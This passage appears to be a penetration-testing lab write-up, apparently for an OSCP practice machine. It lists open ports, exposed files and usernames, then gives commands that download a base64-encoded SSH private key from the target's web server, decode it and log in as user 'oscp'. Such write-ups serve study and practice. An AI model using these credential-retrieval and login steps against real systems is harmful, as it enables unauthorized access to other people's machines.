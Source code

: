 ![writeup.enumeration.steps.4.1](./screenshot04.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)
80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))
33060/tcp   socks5
```
#### Files
``` {.python .numberLines}
http://192.168.119.198/secret.txt
http://192.168.119.198/license.txt
```
#### Users
``` {.python .numberLines}
ssh: oscp
wordpress: admin
```

\newpage
## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
``` {.python .numberLines}
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198

```

![writeup.exploitation.steps.1.1](./screenshot05.png)  
